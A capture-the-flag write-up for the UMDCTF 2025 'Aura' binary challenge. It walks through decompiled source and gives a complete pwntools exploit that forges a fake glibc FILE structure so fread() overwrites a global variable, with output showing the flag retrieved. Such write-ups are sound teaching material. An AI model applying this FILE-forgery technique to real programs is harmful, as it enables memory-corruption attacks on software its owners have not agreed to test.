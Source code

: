 ```yaml
---
title: "Aura 🌟 – FILE Structure Forgery Exploit (UMDCTF 2025)"
tags: [CTF, binary exploitation, FILE Structure Forgery, pwn]
---
```


# UMDCTF 2025 - Aura Pwn Challenge Writeup 🌟
**Author:** [@notagain_pwn](https://github.com/notagain-pwn) (RaptX team)

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Aura-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)

## Table of Contents 📚
- [Challenge Overview](#challenge-overview-) 📄
- [Introduction](#introduction-) 🎯
- [Source Code Analysis](#source-code-analysis-) 🔍
- [Exploitation Plan](#exploitation-plan-) 🛠️
- [Exploit Script](#exploit-script-) 🧠
- [Result](#result-) 🏆
- [Final Notes](#final-notes-) ✨

## Challenge Overview 📄

- **Binary:** aura (ELF 64-bit)

**Protections:**
```
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
Stripped: No
```

## Introduction 🎯

We are given a binary `aura`. When executed, it leaks a heap address ("aura") and expects us to submit a crafted structure.  
The goal is to forge a fake FILE structure and leverage `fread()` to overwrite "aura" into a non-zero value.

## Source Code Analysis 🔍

```c
// Main relevant parts
printf("my aura: %p\nur aura? ", &aura);
FILE *pFVar1 = fopen("/dev/null", "r");
read(0, pFVar1, 0x100);
fread(local_118, 1, 8, pFVar1);

if (aura == 0) {
    puts("u have no aura.");
} else {
    pFVar1 = fopen("flag.txt", "r");
    fread(local_138, 1, 0x11, pFVar1);
    printf("%s\n", local_138);
}
```

## Exploitation Plan 🛠️

1. Leak the heap address of `aura`.
2. Forge a valid `_IO_FILE` structure where:
    - `_IO_buf_base = aura`
    - `_IO_buf_end = aura + 0x10`
3. Overwrite "aura" with any non-zero bytes via `fread()`.
4. Access "flag.txt"!

## Exploit Script 🧠

```python
from pwn import *
import argparse

def connect(host=None, port=None):
   if host and port:
      log.info(f"Connecting remotely to {host}:{port}")
      return remote(host, port)
   else:
      log.info("Running locally")
      return process('./aura')

def leak_aura(p):
   p.recvuntil(b'my aura: ')
   aura = int(p.recvline().strip(), 16)
   log.success(f"Leaked aura address: {hex(aura)}")
   return aura

def forge_minimal_payload(aura_addr):
   payload  = p64(0)              # _flags
   payload += p64(0)              # _IO_read_ptr
   payload += p64(0)              # _IO_read_end
   payload += p64(0)              # _IO_read_base
   payload += p64(0)              # _IO_write_base
   payload += p64(0)              # _IO_write_ptr
   payload += p64(0)              # _IO_write_end
   payload += p64(aura_addr)       # _IO_buf_base
   payload += p64(aura_addr + 0x10) # _IO_buf_end
   payload = payload.ljust(0x88, b'\x00')
   payload += p64(aura_addr)       # chain pointer at offset 0x88
   return payload

def exploit(p):
   aura = leak_aura(p)
   p.recvuntil(b'ur aura? ')
   payload = forge_minimal_payload(aura)
   log.info("Sending forged FILE structure")
   p.send(payload)

   log.info("Overwriting aura value")
   p.sendline(b'A'*8)  # Send 8 non-null bytes to overwrite aura

   p.interactive()

def main():
   parser = argparse.ArgumentParser(description="Exploit aura challenge (local/remote)")
   parser.add_argument('--host', type=str, help='Remote host')
   parser.add_argument('--port', type=int, help='Remote port')
   args = parser.parse_args()

   p = connect(args.host, args.port)
   exploit(p)

if __name__ == '__main__':
   context.binary = './aura'
   main()
```

## Result 🏆

```bash
$ python3 aura.py --host challs.umdctf.io --port 31006
[+] Leaked aura address: 0x58cc312f908c
[*] Sending forged FILE structure
[*] Overwriting aura value
[*] Switching to interactive mode
UMDCTF{+100aur4}
```

## Final Notes ✨

This challenge introduces basic but fun FILE structure manipulation, similar to concepts seen in "House of Orange" style heap exploitation.

🔙 [Back to UMDCTF 2025 Writeups](../../)
